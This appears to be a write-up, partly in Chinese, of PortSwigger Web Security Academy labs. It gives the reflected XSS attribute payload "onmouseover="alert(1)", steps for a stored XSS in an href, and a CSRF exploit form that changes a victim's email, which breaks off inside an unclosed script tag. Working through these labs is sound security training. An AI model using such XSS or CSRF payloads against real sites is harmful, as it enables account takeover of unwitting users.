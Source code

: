 ![image](https://hackmd.io/_uploads/Hkeum0mtp.png)

## Lab: Reflected XSS into attribute with angle brackets HTML-encoded
![image](https://hackmd.io/_uploads/HkIqmCXYp.png)
https://0a6800d903ef83ae812002cf00ed0095.web-security-academy.net/

![image](https://hackmd.io/_uploads/SJ-CX07Fp.png)
### Solution & Solved
#### "onmouseover="alert(1)
![image](https://hackmd.io/_uploads/rJdmV0XKp.png)
![image](https://hackmd.io/_uploads/S1tOECXKT.png)

## Lab: Stored XSS into anchor href attribute with double quotes HTML-encoded
![image](https://hackmd.io/_uploads/BJ0yr0mFT.png)
https://0a3b00190379b5d982f16fa900e900e5.web-security-academy.net/
![image](https://hackmd.io/_uploads/BJdbrC7tp.png)

### Solution
#### /post?postId=8 POST Comment
![image](https://hackmd.io/_uploads/HkDHHAXtT.png)
(POST 1次)
![image](https://hackmd.io/_uploads/SJlxLRQYa.png)
(POST 2次)
![image](https://hackmd.io/_uploads/BJYmLCQKa.png)
> /post/comment/confirmation?postId=8

#### **在第二次POST 塞進href中**
![image](https://hackmd.io/_uploads/B1M680XF6.png)

# Cross-site request forgery (CSRF)
## Lab: CSRF vulnerability with no defenses
![image](https://hackmd.io/_uploads/ByWSgI8KT.png)
https://0ae8009903b0aae4803a3087004600a4.web-security-academy.net/
![image](https://hackmd.io/_uploads/S1LgZUIta.png)

### Solution
#### Go to exploit server
https://exploit-0a68009503c6aa94800d2f9e017600f7.exploit-server.net/
![image](https://hackmd.io/_uploads/r1_NbILY6.png)
#### Edit body
![image](https://hackmd.io/_uploads/HJd9-LUFp.png)
```html=
<form method="POST" action="https://0ae8009903b0aae4803a3087004600a4.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything%40web-security-academy.net">
</form>
<script>
```
